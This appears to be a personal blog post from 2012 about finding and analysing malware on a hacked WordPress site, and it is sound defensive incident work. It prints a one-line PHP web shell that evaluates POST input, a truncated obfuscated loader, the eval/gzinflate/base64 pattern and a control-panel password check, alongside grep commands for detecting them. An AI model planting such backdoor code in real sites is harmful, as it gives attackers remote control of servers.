 title: Hacked Server
date: 2012-08-23 08:23

---

Over the weekend I was informed by a friend that a site I maintain (not mine
personally) was showing up in the Google results as being "malicious". While I
was researching and fixing the problem, I wrote down my thoughts.

* * *

After hearing this news, I Googled the site's name (it is distinctive, but
shall remain nameless here) and found that it indeed had been flagged by the
Googlebot as having been hacked.

Short backstory: Recently the owners of the site had undergone some serious flack
from a hate group, and had been flagged by this group on the
[Web Of Trust (WOT)](https://www.mywot.com/), a site that warns you of unsafe
websites. The WOT is a really good idea, but this hate group flagged it in
retaliation instead. Because of this, I initially thought that the warning
from Google had set off their alarms, so I didn't take it too seriously.

But throughout the day I had a nagging feeling that not all was right with the
world, and so I found myself signing up for something that (now that I've used
it) I think everyone who ever runs a website should use:
[Google Webmasters](http://www.google.com/webmasters/).

Let me take a minute to tell you why you should be using this awesome tool. First,
it will give you the actual HTML output that Google sees. As I found out later,
the hacked website was *only displaying spam to the Googlebot*, so I never found
it in my other searches. The other reason you should use this tool is because
it will check the status of your installed things (WordPress, etc.) and notify you
when you need to update them. This is incredibly convenient.

After I setup the site with Google Webmasters, I found out that the site
was spewing out things that look like this (of course I renamed the links):

> `downing <a href="http://site.com">prescription tramadol without</a>`
> `venlafaxine <a href="http://site.com">penegra generic</a>`

I'm being a little bit of an onscurantist about the sites contents, but suffice to
say that this is definitely not the appropriate content for this site, and at that point
I had to deal with the fact that the server had been compromised.

## The Plan

Typically, a WordPress hack is found by searching for two PHP functions:

* [base64_decode](http://php.net/manual/en/function.base64-decode.php), or
* [eval](http://php.net/manual/en/function.eval.php)

So my initial plan was to search the server for instances of either of those functions using:

	grep -H -r -i 'base64_decode' ~/sitename.com
	grep -H -r -i 'eval' ~/sitename.com</pre>

* `-H` will print the filename instead of the entire line of text where it found the match
* `-r` will search recursively
* `-i` will ignore case (since PHP ignores it we need to do so to have a thorough search)

Doing so brought up quite a few `base64_decode` calls, and many false positives for `eval`
but all of them legitimate. Working with the command line over SSH was difficult, so I
tarred the entire site's contents:

	tar cvzf backup.tgz ~/sitename.com

Now I have the files in hand, I can very quickly scan through the files and see if
anything catches my eye, and the very first thing I noticed is the file named `wp_info.php`

WordPress has a very particular naming scheme with all their files, and it looks
like this: `word-word.php` So an underscore looks a little suspicious, and opening
it I find this magical bit:

	`eval(stripslashes(array_pop($_POST)));`

That command right there will essentially run _anything_ that is thrown at it by a
POST request. Wow, this is nuts. Also, I don't know why I didn't see it in
the `grep` earlier, but there was probably just too much noise to notice it.

That right there is the likely entry point _after_ the hack, but I want to see
if I can find anything else, so I press on. Even though I am pretty familiar
with the WordPress structure, I downloaded a [fresh WordPress](https://wordpress.org/download/)
install to compare. After browsing around a bit, I found a file in
the `wp-content/uploads` folder named `.cache_tofu.php` that I did not
recognize, and on inspection I found the following at the end of it:

	`preg_replace("/.*/e","x65x76x61x6c ... x3b",".");`

Where the dots are I removed about 24,400 characters from the actual thing. I'm not familiar
with the `preg_replace` function, but the [PHP docs](http://www.php.net/manual/en/function.preg-replace.php)
say it is basically `preg_replace(pattern,replacement,subject)` so the code above will
interpret to just the middle part `"x65x76x61x6c ... x3b"`

But if you'll notice, quite a few characters in that set look like `x##` which is the PHP way of
noting characters in [extended unicode](http://www.php.net/manual/en/regexp.reference.unicode.php), so
all you need to do is figure out a way to convert those to normal ASCII and you can read them.

`<sarcasm>`Thankfully`</sarcasm>`, PHP [plays loose](https://maurus.net/resources/programming-languages/php/)
with the encoding, so we can simply turn it to a string and it will print out. But because
PHP plays loose, you can't do something as simple as `echo "x65x76x61x6c ... x3b";` because
it will actually evaluate whatever is there, assuming it's an `eval` statement, which is
an obvious assumption at this point. So here's what you do:

	$myFile = "testFile.txt";
	$fh = fopen($myFile, 'w') or die("can't open file");
	$stringData = "x65x76 ... x20x3b";
	fwrite($fh, $stringData);
	fclose($fh);

With that, I finally got what I was looking for: `eval(gzinflate(base64_decode('5b19fxq30jD8...` which
is the standard hack. And now we can unpack the base64 code to see what magic lies
beneath. Again, it probably has some `eval` in it, so just write it to the text file.
Because it uses `gzinflate` we need to do it this way in our above code:
`$stringData = gzinflate(base64_decode('5b19f...` With that, I get a code that is just
over 1,500 lines long: [pastebin](http://pastebin.com/brR6Jh5f) or [hastebin](http://hastebin.com/hipeqoxoho.php).

On reading the code, my jaw hit the floor.

I think I need some alcohol to calm my nerves, just a minute...

* * *

Alcohol acquired, still a little shook up, going to press on and hope for the best.

So where was I? Oh, right. It is interesting to note that, even within this code, there
are things that are base64 encoded. Upon extracting them, it looks like they are Perl
scripts. Here is one which was labeled `back_connect_p`:
[pastebin](http://pastebin.com/7izktDBV) And here is another which was labeled
`bind_port_p`: [pastebin](http://pastebin.com/7yNrfWT0)

Okay, so this is obviously bad, and in more ways than one: 1) have to look
around for more bad files, 2) based on the script, it would be safe to
assume every password associated with this account (servers, etc.) should
be changed, 3) and I still don't know how this got installed.

Let's start on the last thing first.

So we have this absolutely soul crushing code (did you read it yet? did you understand
how bad it was? it was very bad!) but we don't know how it's run. Looking
at the code, I realized that to run it, all you'd have to do is access it. It's located
in the WordPress uploads folder, so we can simply navigate to it at
`site.com/wp-content/uploads/the_file.php` and we get this:

![Password login of control panel](/content/images/hacked-server/password.png)

Hmmmm. The alcohol is setting in a bit now, and I am starting to feel less like the world
will end, so I am curious what is behind the password?

Looking through the code I find that all it takes is this: `if(md5($_POST['pass']) == 'dcc2630fea8d91fbc38ee0acc48001a6')`

Although rainbow tables and so on exist, I don't have any of that software setup
on this computer, so an md5 lookup is not trivial for me. Instead, I boot up the old
[virtual computer](http://www.unixmen.com/install-lamp-with-1-command-in-ubuntu-1010-maverick-meerkat/)
and run the code directly on a PHP server. Here is the screenshot:

![Control panel](/content/images/hacked-server/control-panel.png)

This is terrible.

So here is what we have so far: There is a script on this site that lets a person
pretty much do what they want.

The question remains, how did the script get there in the first place?

Of course, since I don't run the site I am not sure what plugins were installed
before, but I am reasonably certain that the people who own the site wouldn't
install a plugin that didn't come from the [WordPress site](https://wordpress.org/extend/plugins/).

This limits the possible entry points quite a bit.

One weak point in the WP framework shows up if someone changes the folder permissions of one of the
folders. This is addressed quite well in [this](https://codex.wordpress.org/Changing_File_Permissions)
article. But nobody except myself has SSH access, and only one person has FTP access. I'll ask him,
but he seems reasonably smart so he probably wouldn't set stupid permissions.

In fact, I can check whether a file is executable or not using `ls -ls` and I can see that
it is not executable. Furthermore, the file itself was last modified in May this year
(2012), although I don't know how long it's been since it was executed. The site
is hosted on a [shared server space](https://dreamhost.com/), which could
even be the problem.

* * *

At this point I am trying to think of solutions. Since all that's run on this server
is the WordPress install, I can essentially just reinstall the site and verify that
nothing is in the database. The uploads folder can be copied over after I check it.

Being intimately familiar with WordPress I've coached a few people through this
process, and even had to run through it once myself, so I know that it's not too difficult.

Still, the annoyance is huge. And I still don't know what caused the security
breach that allowed that terrible code to get installed.

For tonight I think I have the server locked down enough that I can leave it,
but I think I'll probably reinstall WordPress, it's a pretty fast experience.

## Lesson Learned

You should look for the `eval` function, but you should also look for it in Unicode, which looks like `x65x76x61x6c`

